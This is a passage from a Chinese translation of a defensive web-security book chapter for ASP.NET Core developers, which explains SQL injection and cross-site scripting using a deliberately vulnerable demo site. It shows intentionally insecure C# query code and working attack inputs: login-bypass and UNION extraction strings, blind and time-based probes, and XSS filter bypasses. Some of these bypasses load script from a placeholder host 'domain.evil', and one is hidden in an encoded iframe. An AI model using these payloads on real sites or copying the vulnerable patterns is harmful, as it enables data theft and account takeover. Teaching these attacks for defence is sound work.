




# 五、了解常见攻击

在深入研究 ASP.NET Core 的安全方面之前，最后要谈的是常见的 web 攻击。本书的重点是防止攻击，而不是教你成为一名渗透测试员，但是如果我们知道这些攻击是如何发生的，讨论如何防止这些攻击会更容易。

不过，在开始之前，有必要花点时间来定义几个术语。当谈到您从用户或第三方系统收到的可能发送给您不安全信息的信息时，我将使用术语“不可信输入”。在应用中处理或显示任何不可信的输入之前，需要仔细检查和/或过滤这些输入。这与“可信输入”形成对比，“可信输入”是您从系统中获得的信息，您认为这些信息不会向您发送错误或恶意数据。我建议只将*您 100%控制的*系统视为“可信的”，而将其他所有系统视为“不可信的”，无论发送者的声誉如何，但这可能会因您的需求和风险承受能力而异。目前，只需将“不可信”的数据视为“可能是恶意的”数据。

要了解本章中的许多示例，您可以从以下 URL 下载并使用漏洞自助餐: [`https://github.com/ScottNorberg-NCG/VulnerabilityBuffet`](https://github.com/ScottNorberg-NCG/VulnerabilityBuffet) 。我写了那个网站，所以我有一个故意易受攻击的网站，我可以对照它测试安全扫描器(并知道我希望扫描器找到什么项目，知道哪些发现是误报，等等。)，但这是一个很好的资源，因为它有许多不同的漏洞，可以通过不同的方式加以利用。

如果您知道网站中的大多数页面都允许您搜索食品名称和/或食品类别，并且网站会根据您的搜索文本返回基本信息，这可能有助于理解此处的示例。但是每个页面都有不同的漏洞，网站会告诉你每个页面的漏洞。

Note

网站和书中的许多例子都使用“牛肉”作为搜索文本。这绝不是对素食主义者或纯素食主义者的评论，相反，这是对浏览器开发框架的一个标注，也称为 *BeEF* 。 <sup>[1](#Fn1)</sup> BeEF 是一款流行的开源工具，帮助有道德的黑客(我想也包括无道德的黑客)利用 XSS 的漏洞。

## SQL 注入

当今网络世界中最常见、也是最危险的攻击类型之一是 SQL 注入攻击。当用户能够在数据库调用中插入任意 SQL 时，就会发生 SQL 注入攻击。这是怎么发生的？让我们看看最简单的方法，你们很多人都已经熟悉了。清单 [5-1](#PC1) 中的例子取自漏洞攻击。 <sup>[2](#Fn2)</sup>

```cs
private AccountUserViewModel UnsafeModel_Concat(string foodName)
{
  var model = new AccountUserViewModel();
  model.SearchText = foodName;

  using (var connection = new SqlConnection(↲
    _config.GetConnectionString("DefaultConnection")))
  {
    var command = connection.CreateCommand();
    command.CommandText = "SELECT * FROM FoodDisplayView ↲
      WHERE FoodName LIKE '%" + foodName + "%'";

    connection.Open();

    var foods = new List<FoodDisplayView>();

    using (var reader = command.ExecuteReader())
    {
      while (reader.Read())
      {
        //Code that’s not important right now
      }
    }

    model.Foods = foods;

    connection.Close();
  }

  return model;
}

Listing 5-1Code that is vulnerable to a basic SQL injection attack

```

Note

为了理解本章中的 SQL 注入例子，你需要知道 ADO.NET 是如何工作的。ADO.NET 是实体框架(以及大部分或所有其他对象关系映射器，或 ORM)的基础技术，理解它将有助于保证 EF 代码的安全。如果你不理解这些例子，需要 ADO.NET 的介绍，请阅读第 [8](08.html) 章的前几节。

如果我调用这个方法来搜索食物名称“Beef ”,这就是发送到数据库的内容。

```cs
SELECT * FROM FoodDisplayView WHERE FoodName LIKE '%Beef%'"

Listing 5-2Resulting SQL from a query vulnerable to injection attacks

```

清单 [5-2](#PC2) 看起来是一个完全合法的 SQL 查询。然而，如果不是输入一些食物名称，而是输入类似“牛肉”或 1 = 1 -的东西作为搜索查询，就会发生非常不同的事情。清单 [5-3](#PC3) 显示了发送到数据库的内容。

```cs
SELECT * FROM FoodDisplayView WHERE FoodName LIKE '%beef' OR 1 = 1 -- %'

Listing 5-3Query with another WHERE condition inserted

```

如果您查看代码和查询，您现在会看到该方法将总是返回表中的所有行，而不仅仅是查询中的那些行。事情是这样的:

1.  攻击者输入单词“beef”来生成一个有效的字符串，但这里并不需要。

2.  为了终止字符串(这样 SQL 语句就不会抛出错误)，攻击者添加了一个撇号。

3.  为了包含数据库中的所有行，而不仅仅是匹配搜索文本的行，攻击者添加了“OR 1 = 1”。

4.  最后，为了使数据库忽略程序员可能输入的任何额外的查询文本，攻击者添加了两个破折号，因此数据库认为该文本(在本例中，食品名称的原始结尾撇号)只是一个注释。

在这个特定的场景中，这种攻击相对来说是良性的，因为它只会导致用户在知道正确的搜索词的情况下能够获取他们可以访问的数据。但是，如果您的登录页面上存在此漏洞，攻击者将能够以任何用户身份登录。要了解如何操作，这里有一行典型的(非常不安全的)代码来构建一个获取登录信息的查询。

```cs
var query = "SELECT * FROM AspNetUsers WHERE UserName = '" +↲
  model.Username + "' AND Password = '" + password + "'";

Listing 5-4Login query that is vulnerable to SQL injection attacks

```

为了利用清单 [5-4](#PC4) 中的代码，您可以传入“administrator”-"作为用户名，传入“whatever”作为密码，清单 [5-5](#PC5) 中的查询将会产生(被注释掉的代码带有删除线)。

```cs
SELECT * FROM AspNetUsers WHERE UserName = 'administrator' --↲
  AND Password = 'whatever'

Listing 5-5Login query that will always return an administrator (if present)

```

当然，一旦您意识到您可以注入任意的 SQL，您就可以做更多的事情，而不仅仅是作为任何用户登录。根据您的安全分层和限制网站用于登录数据库的帐户权限的程度，攻击者可以从数据库中提取数据，更改数据库中的数据，甚至使用`xp_cmdshell`在服务器上执行任意命令。在接下来的几节中，当我向您展示一些不同类型的 SQL 注入攻击时，您会有一种感觉。

### 基于工会

简而言之，基于联合的 SQL 注入攻击是这样一种攻击，攻击者使用一个附加的联合子句来获取比您作为开发人员想要提供的更多的信息。例如，如果在前面的查询中，不是向数据库发送“' OR 1 = 1 -”，而是从 AspNetUsers 发送“Beef' UNION SELECT 1，1，UserName，Email，1，1，1，1，1”，会发生什么？清单 [5-6](#PC6) 包含将被发送到数据库的查询(为了清楚起见，添加了明确使用的换行符和列)。

```cs
SELECT FoodID, FoodGroupID, FoodGroup, FoodName, Calories,↲
  Protein, Fat, Carbohydrates
FROM FoodDisplayView
WHERE FoodName LIKE '%Beef'
UNION
SELECT 1, 1, UserName, Email, 1, 1, 1, 1
FROM AspNetUsers
-- %'

Listing 5-6Union-based SQL injection attack

```

对于黑客来说，找到列的数量和格式需要一些尝试和错误，但是一旦黑客弄清楚了原始查询中列的数量和格式，从任何表中提取任何数据就变得容易多了。在这种情况下，查询可以提取系统中所有用户的用户名和电子邮件。

在我继续讨论下一种类型的 SQL 注入攻击之前，我应该注意，防止 SQL 注入攻击发生的一个常见建议是通过用双撇号替换单撇号来避免任何撇号。如果你这样做，基于联合的 SQL 注入攻击仍然有效，*如果*原始查询不需要字符串。这里有一个例子。

```cs
private AccountUserViewModel UnsafeModel_Concat(string foodID)
{
  var model = new AccountUserViewModel();
  model.SearchText = foodName;

  using (var connection = new SqlConnection(↲
    _config.GetConnectionString("DefaultConnection")))
  {
    var command = connection.CreateCommand();
    command.CommandText = $"SELECT * FROM FoodDisplayView↲
      WHERE FoodGroupID = {foodID}";

    connection.Open();

    var foods = new List<FoodDisplayView>();

    using (var reader = command.ExecuteReader())
    {
      //Code to load items omitted for brevity
    }

    model.Foods = foods;

    connection.Close();
  }

  return model;
}

Listing 5-7SQL injection without apostrophes

```

这里要注意的最重要的一点是，查询本身不包含撇号，因此任何注入的代码都不需要包含撇号就可以进行有效的查询。是的，这确实在一定程度上限制了攻击者可以利用的东西，但是攻击者可以对清单 [5-7](#PC7) 中的代码进行基于联合的攻击，只需使用清单 [5-6](#PC6) 中的攻击文本并用一个数字替换“%Beef”就可以将数据提取到他们想要的任何表中。

Note

你可能认为黑客不会为了想出一个可行的东西而去尝试各种组合的麻烦。毕竟，如果您仔细观察起作用的查询(在清单 [5-7](#PC7) 中)，我必须知道 Union 子句需要八个参数，第三和第四个需要是字符串，其余的需要是整数，这样攻击才能起作用。但是你可以下载免费的工具来自动完成大部分工作。我所知道的最好的一个叫做 *sqlmap* 、<sup>T5】3</sup>，它不仅是免费的，而且是开源的。使用起来几乎就像将 sqlmap 指向您的网站并告诉它“去寻找 SQL 注入漏洞”一样简单

### 基于错误

基于错误的 SQL 注入是指黑客根据返回到用户界面的错误消息来收集有关数据库的信息。想象一下，如果黑客能够区分他们的注入查询缺少一列和只有正确的列数但混合了列类型，那么创建基于联合的注入攻击将会容易得多。向黑客显示数据库错误消息使这变得非常容易。为了证明这一点，图 [5-1](#Fig1) 显示了如果黑客试图进行基于联盟的攻击，但猜错了列数时返回的错误消息(在漏洞自助餐的基于错误的测试页面中)。



图 5-1

如果基于联合的攻击的列数不正确，则出现错误

错误消息明确指出“使用 Union、INTERSECT 或 EXCEPT 操作符组合的所有查询必须具有相同数量的表达式……”，这使得黑客很容易知道下一步要做什么:在 UNION 子句中添加更多列。

一旦知道了列数，下一步就是开始试验数据类型。如果您认为我不知道第一个参数是一个整数，我可以尝试提供单词“Hello”来代替。图 [5-2](#Fig2) 显示了一条错误消息，它清楚地告诉我“Hello”不仅是无效的，而且它需要是一个整数。



图 5-2

如果数据类型不匹配，则出现错误

长话短说，向用户显示 SQL 错误会让黑客的日子好过得多。

### 基于布尔的盲

对于基于布尔的盲攻击和基于时间的盲攻击，*盲*是指黑客无法看到 SQL 查询的实际结果。基于布尔的盲查询是一种被更改为的查询，以便在查询结果为真或假时执行操作。

为了说明这是多么有用，让我们看一个黑客试图找出 AspNetUsers 表的所有列名的例子。需要说明的是，这**不是**基于布尔的盲攻击的一个例子，而是一种攻击类型的例子，使用基于布尔的盲攻击更容易。在这个场景中，黑客已经发现 AspNetUsers 表存在，现在正试图找出列名。首先，让我们回顾一下从数据库中提取列名的暴力方法。在本例中，假设查询旨在返回一个整数，黑客劫持了原始查询以将其发送到数据库。

```cs
SELECT TOP 1 CASE WHEN COUNT(1) > 0 THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
GROUP BY COLUMN_NAME
ORDER BY COLUMN_NAME

Listing 5-8A query that returns true if a table has a column that starts with the letter “A”

```

清单 [5-8](#PC8) 是怎么回事？这将查询存储列信息的 SQL Server 内部表。“table_name”列存储表名，Where 子句搜索以字母“A”开头的列名。如果存在这样的列，查询将返回一个有效的整数(1 ),一切都将按预期运行。如果不是，那么我们返回一个太大的整数，因此会导致错误。

简而言之，我们对一个列名进行猜测，如果猜测不正确，网站会通过抛出一个错误来让我们知道。

在我们的例子中，因为 AspNetUsers 表有一个名为“AccessFailedCount”的列，所以查询成功。我们知道至少存在一个以 a 开头的列。让我们尝试获取整个列名。

```cs
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'a'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-9A query to see if the first column that starts with “A” has a second letter “a”

```

正如您在清单 [5-9](#PC9) 中看到的，黑客不是通过分组来查看是否存在任何列，而是通过按列名排序并只选择前 1 列来锁定第一列。然后，他们检查该列的第二个字符是否以字母“a”开头。如果是这样，查询将返回一个有效的整数，并且查询不会引发错误。如果没有，就会出现错误，告诉黑客他们猜错了。因为“AccessFailedCount”的第二个字母是“c ”,所以会出现错误。但是黑客可以继续。

```cs
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'b'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-10A query to see if the first column that starts with “A” has a second letter “b”

```

在清单 [5-10](#PC10) 中，黑客检查第二个字符是否是“b”。它不是，所以继续前进。

```cs
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'c' THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-11A query to see if the first column that starts with “A” has a second letter “c”

```

在我们的场景中，清单 [5-11](#PC11) 中的代码执行时没有错误，因此我们知道该列以“Ac”开头。是时候移动到下一个角色了，如清单 [5-12](#PC12) 所示。

```cs
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 3, 1) = 'a'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'Ac%'
ORDER BY COLUMN_NAME

Listing 5-12A query to see if the first column that starts with “Ac” has a third letter “a”

```

可以对每个数据库、表、列甚至数据库中的数据重复这个过程，以便在您不知道的情况下提取所有数据和所有模式。以下是您可以查询的数据库对象，以便从数据库中提取有关数据库模式的信息:

*   **数据库**:从系统数据库中选择【名称】

*   **Schemas** :从 sys.schemas 中选择[name]

*   **表格**:从系统表格中选择【名称】

*   **列**:从 INFORMATION_SCHEMA 中选择 COLUMN_NAME。列

当然，一旦有了所有表和列的名称，就可以使用相同类型的查询来提取数据本身。

这可能听起来工作量很大，但是 sqlmap 将为您自动完成这项工作。你只需要放入你的目标页面，告诉它要拉出什么数据，然后看着它为你做艰苦的工作。

当然，如果黑客在服务器上造成数千个错误，可能会有人注意到。这就是基于布尔的盲攻击派上用场的地方。如果子查询返回 false，您可以强制查询不返回任何结果，而不是在查询失败时引发错误。为了看到这一点，让我们针对这个查询运行这个攻击。

```cs
SELECT UserName
FROM AspNetUsers
WHERE Email LIKE '%<<USER_INPUT>>%'

Listing 5-13Query vulnerable to SQL injection

```

如果黑客知道“scottnorberg@email.com”是有效的电子邮件，那么他们可以更改清单 [5-13](#PC13) 中的查询，以查找类似清单 [5-14](#PC14) 的列名(为了清楚起见，添加了换行符)。

```cs
SELECT UserName
FROM AspNetUsers
WHERE Email LIKE '%scottnorberg@gmail.com'
  AND EXISTS (
    SELECT *
    FROM INFORMATION_SCHEMA.COLUMNS
    WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
  )
--%'

Listing 5-14Boolean-based SQL injection looking for column names

```

这种方法比调整查询以返回整数要容易得多，并且通常可以通过 sqlmap 或自定义脚本实现自动化。

### 基于时间的盲

如果黑客的猜测是正确的，当黑客在数据库中造成延迟时，就会发生基于时间的盲。您可以在 SQL Server 中使用“WAITFOR DELAY”来实现这一点。WAITFOR DELAY 可用于将查询延迟几小时、几分钟或几秒钟。在大多数情况下，将查询延迟 5 或 10 秒就足以证明查询返回了 true。

基于时间的 SQL 注入在 SQL Server 中比在 MySQL 中更难执行，因为 SQL Server 要求在查询之外执行 WAITFOR DELAY，但这仍然是可能的。清单 [5-15](#PC15) 显示了一个例子。

```cs
SELECT UserName
FROM AspNetUsers
WHERE Email LIKE '%scottnorberg@gmail.com'
GO
IF EXISTS (SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%')
BEGIN
     WAITFOR DELAY '00:00:05'
END--%'

Listing 5-15Example of a Time-based blind SQL injection attack

```

### 二级的

二阶 SQL 注入指的是这样一种场景:SQL 被安全地保存到数据库中，但是在以后的某个时间被不安全地处理。举个例子，我们可以回到漏洞自助餐。在该应用中，用户可以安全地将他们喜欢的食物保存在他们的用户首选项中，但加载类似食物的页面/AuthOnly/StoredSQLi， <sup>[4](#Fn4)</sup> 不安全地创建了搜索用户喜欢的食物的查询。为了澄清，流程如下:

1.  用户将数据输入系统，这些数据被安全地存储在数据库中。

2.  该用户、另一个用户或系统进程稍后会访问该数据。

3.  这些数据被不安全地添加到 SQL 脚本中，然后针对数据库执行，其方式类似于我在本章中概述的其他 SQL 注入攻击。

这种攻击比以前的攻击更难发现，因为用户输入数据的页面不是易受攻击的查询中使用数据的页面。但是如果被发现，黑客可以像利用任何其他类型的 SQL 注入攻击一样容易地利用这一点。

还有一点需要注意:SQL Server 有一个名为 *sp_executesql* 的存储过程，它允许用户在运行时构建和执行 SQL。由于存在二级 SQL 注入攻击的风险，因此必须非常谨慎地使用该功能。

### SQL 注入概要

我将把解决这些问题的讨论留到第 8 章数据访问中。不过，现在要知道，这些问题都有有效的解决方案；如果你不知道自己在做什么，就很容易忽略它们。但是我希望你能看到 SQL 注入是一个需要注意的严重的弱点，如果网上的文章有任何暗示的话，这是一个经常被忽视的弱点。

接下来，让我们谈谈另一个常见的漏洞——跨站脚本，或 XSS。

## 跨站点脚本(XSS)

我以前已经几次提到过*跨站脚本*(通常缩写为 *XSS* )，但是现在是时候更深入地研究它了。XSS 本质上是将 JavaScript 注入网页的术语。让我们看一个来自漏洞自助的简单例子。“从 QS 反映”页面应该从查询字符串中提取一个搜索查询，然后当你看到如图 [5-3](#Fig3) 所示的结果时，提醒你你搜索了什么。



图 5-3

页面容易受到 XSS 正常工作

注意，我在查询字符串中搜索“牛肉”这个词，页面显示“您搜索了:牛肉”。当我搜索"  "时会发生什么？

文本可能很难阅读，但如果你仔细观察图 [5-4](#Fig4) ，在“hacked”周围的撇号得到了浏览器中的 URL 编码，但除此之外，其他一切都工作得很好。ASP.NET 高兴地为我破译了这些字符。当我将脚本的全部内容发送到 web 页面时，我确实收到了一个警告，上面写着“hacked”。



图 5-4

一次成功的 XSS 袭击

这种攻击被称为*反射* XSS 攻击，因为输入直接来自请求，并立即反射回浏览器。像 SQL 注入的二阶攻击一样，XSS 的攻击基于存储的攻击值，称为*持续* XSS。除了源头之外，反射的和持续的 XSS 的行为基本上是相同的。

大多数 XSS 的例子，无论是在本书还是在其他地方，都显示出 XSS 的反思，而不是 XSS 的执着。这是*而不是*因为 XSS 更危险。当然，如果通过查询字符串传递的值容易受到 XSS 的攻击，那么这个特定的页面就是网络钓鱼和鱼叉式网络钓鱼攻击的主要目标。但是如果这种攻击成功，只有一个用户受到危害。如果持续的 XSS 攻击成功，那么每个访问该页面的用户都会受到影响。如果这是一个高流量的页面，那么你的大部分或所有用户都会受到影响。

Note

只要我把持续的 XSS 攻击和二级 SQL 注入攻击相提并论，我就想说二级 SQL 注入攻击实际上比可以立即执行的攻击的破坏性要小。如果你仍然把“SQL 注入”等同于老一套的“DROP TABLE Users”命令，这可能会让你大吃一惊，但是请记住，黑客不想被注意到。他们不太可能试图用这样的命令破坏您的站点，而更有可能试图使用我前面概述的技术窃取您的数据。如果您可以运行一个查询并获得结果，那么一个字符一个字符地提取模式要比需要运行两个(或更多)操作来运行脚本容易得多。

### XSS 和价值跟踪

在我继续用一些例子向您展示向页面添加 JavaScript 的不同方法之前，有一些关于最小化反射 XSS 攻击的潜在损害的东西值得一提。当你不允许*值隐藏*时，反射 XSS 更难被利用。值隐藏是允许输入来自多个位置的术语。这在 ASP.NET 框架中很常见，因为您可以通过简单地使用`Request["VALUE_NAME"]`来使用`Request`对象查找值。这样的查询会以表单、查询字符串和 cookies(可能还有更多源)的形式出现。换句话说，如果我有一个表单，它容易受到带有两个字段“用户名”和“密码”的值隐藏的影响，那么攻击者就可以将这两个值放在查询字符串中，并完全绕过表单。

为什么值隐藏使得反射 XSS 更容易被利用？因为这允许攻击者通过点击查询字符串中而不是表单中的信息的链接来欺骗用户，从而提交他们想要的任何信息，这反过来使得像网络钓鱼和鱼叉式网络钓鱼这样的攻击更容易得逞。阻止值隐藏可以防止这种情况发生。我们将在后面讨论更多的细节，但是 ASP.NET Core 已经使开发者更难，但不是不可能，意外地放入值隐藏漏洞。

现在，为了加深您对 XSS 的理解，让我们深入了解攻击者可以在您的页面上执行他们自己的 JavaScript 的方法。

### 绕过 XSS 的防御

我将在本书的后面部分讨论 ASP.NET Core 特有的防御 XSS 的方法。然而，就目前而言，为了更好地了解不同类型的 XSS 攻击的工作原理，有必要了解执行 XSS 攻击的不同方法，包括避开常见防御的方法。

#### 绕过脚本标签过滤

开发人员试图阻止 XSS 攻击的一个常用方法是从用户的任何输入中删除所有的

```cs
content = content.Replace("<script>", "");

Listing 5-16Replacing a script tag from text to try to prevent XSS

```

有几个有效载荷可以让你执行 XSS 攻击，绕过这种防御，但最简单的是简单地使标签大写，就像这样:`<SCRIPT SRC="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"></SCRIPT>`。

让辩护变得敏感是相当简单的。你所需要做的就是使用一个正则表达式，如清单 [5-17](#PC17) 所示。

```cs
content = Regex.Replace(content, "<script>", "", ↲
                        RegexOptions.IgnoreCase);

Listing 5-17Case-insensitive removal of all <script> tags

```

有许多方法可以解决这个问题，包括在标签的结束括号前添加一个空格。但是你也可以加一个斜线，像这样:`<script/data="x" src="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"></script>`。或者，您可以嵌入脚本标签，就像这样:`<scr<script>ipt src="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"</script>,`这将允许黑客添加他们自己的脚本，因为内部的`<script>`标签将被`Regex.Replace`语句删除，而外部的`<script>`标签保持不变。

简而言之，如果您绝对需要使用正则表达式来防止 XSS，您将需要考虑许多边缘情况，否则黑客几乎肯定会找到绕过您的防御的方法。

##### Img 标签、Iframes 和其他元素

正如我前面提到的，如果您设法成功地从任何用户输入中删除了所有的

其他几个标签有 onload、onerror 或其他一些无需用户交互就能触发的事件。(如果您想包含需要用户交互的脚本，比如支持“onmouseover”的脚本，还可以添加更多的脚本。)以下是漏洞自助中包含的一些漏洞:

*   **<主体>** :有一个“onload”标签。是的，出于某种原因，浏览器会支持嵌套的 body 标签。

*   **<iframe>**:“src”属性可以用来加载任意脚本，绕过大多数防御。更多详情请见下文。

*   **< marquee >** :我已经十几年没有看到这个标签被使用了，但是浏览器仍然同时支持它和“onstart”动作。

*   **<对象>** :支持“onerror”属性。

*   **< svg >** :支持“加载”属性。

*   **<视频>** :支持“onerror”属性。

Tip

这并不是所有可用标签的完整列表。当我在写这一章的时候，我在 Twitter 上看到了一个黑客的推文，他说他们使用标签的 XSS 攻击被网络应用防火墙(WAF)阻止了，但是使用标签的相同攻击却通过了。 <sup>[ 5 ](#Fn5)</sup> 我试了一下，果然我能够在一个`onerror`属性中运行 JavaScript。

其中大部分都相当简单——要么元素在加载或启动时被告知运行脚本，要么它可以在出现错误时运行脚本。正如我提到的，<iframe>有点不同。你们中的许多人已经知道 iframe 可以用来加载第三方页面。它还可以通过在 src 中指定“data:text/html”来指定内容。我们甚至可以对我们的有效负载进行编码，以帮助隐藏它，使其免受任何可能监听恶意内容的防火墙的攻击。清单<a href="#PC19"> 5-19 </a>有一个例子，用内容"&lt;script src = '<a href="http://domain.evil/evil.js"><code>http://domain.evil/evil.js</code></a>'&gt;&lt;/script&gt;"编码。<pre>&lt;iframe src="data:text/html, %3c%73%63%72%69%70%74%20%73%72↲ %63%3d%27%68%74%74%70%3a%2f%2f%64%6f%6d%61%69%6e%2e%65%76↲ %69%6c%2f%65%76%69%6c%2e%6a%73%27%3e%3c%2f%73%63%72%69%70↲ %74%3e"&gt;&lt;/iframe&gt; Listing 5-19Iframe with encoded script payload </pre></iframe>

Note

关于 XSS 的过时书籍和博客中有很多例子，包括 JavaScript 在完全无意义的地方运行，比如将类似“javascript:somethingBad()”的东西添加到表格的“背景”属性中。要知道现在大多数浏览器都会忽略这样的事情，所以少了一件需要担心的事情。

正如我前面提到的，即使你知道如何屏蔽所有新元素，攻击者仍然可以在你的网站上添加他们自己的脚本。现在让我们深入研究一下如何做到这一点的例子。

#### 基于属性的攻击

如果您仅仅对所有的尖括号进行 HTML 编码，那么到目前为止我提到的所有攻击都可以得到缓解。为此，您需要将所有的“”字符转换成“>”免受所有这些攻击。但是如果你这样做，T2 仍然有可能对 XSS 发动攻击。以我之前谈到的搜索场景为例。如果你有一个搜索页面，你可能想要向用户显示他们在页面上搜索了什么。如果文本在一个< span >标签内，那么前面的攻击就不起作用了。但是如果您想将文本保留在文本框中以便于编辑和重新提交，那么用户可以操作<输入>标签来合并新的脚本。

在这个例子中，文本被添加到元素的“值”属性中。黑客可以关闭该属性，然后添加他们自己的属性。下面是一个例子，黑客的输入以粗体显示。

```cs
<input type="text" id="search" value='search text'↲
  onmouseover='MaliciousScript()' />

Listing 5-20Inserting XSS into an attribute

```

在清单 [5-20](#PC20) 中，攻击者输入“搜索文本”，添加一个引号来封闭“值”属性，然后添加一个新属性——onmouseover——该属性执行黑客的脚本。

#### 劫持 DOM 操作

将 JavaScript 轻松插入页面的最后一种方法是劫持改变页面上 HTML 的其他代码(即改变 DOM)。这里有一个改编自漏洞自助餐的例子。 <sup>[6](#Fn6)</sup>

```cs
@{
  ViewData["Title"] = "XSS via jQuery";
}

